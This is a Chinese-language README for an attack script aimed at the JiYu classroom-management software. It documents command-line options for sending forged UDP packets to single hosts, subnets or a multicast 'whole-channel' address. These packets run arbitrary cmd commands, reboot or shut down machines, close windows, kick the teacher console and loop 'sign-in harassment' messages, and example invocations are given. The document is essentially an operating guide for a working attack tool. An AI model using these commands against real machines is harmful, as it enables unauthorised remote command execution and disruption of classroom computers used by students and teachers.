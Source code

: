 # my_jiyu
极域,学习
Jiyu_udp_attack脚本来自 https://github.com/ht0Ruial/Jiyu_udp_attack
# Use
'''
            usage: 
            Attack.py -i <ip> -p <port> -m <message> -c <command> -r -s -k -t -l -h
             
            Attack.py --ip <ip> --port <port> --message <message> --command <command> 
                    --reboot --shutdown --kill --time --loop --help --caw --ctw --sih 
                    --echo --sip --sport --mydata
           --------------------------------------------------------------
           -i[ip]:                      目标IP地址,形如 224.50.50.42 或
                                        172.25.10.1-255 或 172.25.10.1/24
                                         这样的单个/多个ip或整个网段。  
                                         注：224.50.50.42是组播地址，可用
                                         于全频道攻击。
           -p[port]:                     接收方端口,默认4705。
           -m[message]:                  要发送的消息。
           -c[command]:                  要执行的cmd命令。
           -r[reboot]:                   重启目标机器。
           -s[shutdown]:                 关闭目标机器。
           -k[kill]:                     挤下教师端。    
                                         注:教师端会提示,断腿操作!慎!!!!
           -t[time]:                     设置循环执行的时间间隔,默认为5秒
           -l[loop]:                     设置循环次数,默认为1次
           --caw[close_all_windows]:     关闭目标所有程序
           --ctw[close_top_windows]:     关闭目标顶端窗口
           --sih[sign_in_harassment]:    签到骚扰
           -h[help]:                     帮助菜单。
           --sip[source_ip]:             发包的ip,没啥用,Windows XP 后已经
                                         禁止更改发包ip了
           --sport:                      发包端口,默认随机 
           --echo:                       开启回显,默认关闭
           --mydata:                     独立选项,发送16进制原始数据.此项与
                                         其他功能选项互斥(不包括ip,port,
                                         sip,sport,echo,loop,time)
           **************************************************************\n
           例:
           Attack.py -i 224.50.50.42-224 -m "Test" 
           Attack.py -i 224.50.50.42/24 -m "Test" -t 3 -l 5
           Attack.py -i 224.50.50.42 -c "for /l %i in (1,1,10) do (@pause)"
           Attack.py -i 224.50.50.42 -k
           Attack.py -i 224.50.50.42 --sih -t 1 -l 200 --echo -m "Ha Ha Ha"
  
# 
            其中部分功能不可用,例如kill,需要自己改包的教师端ip

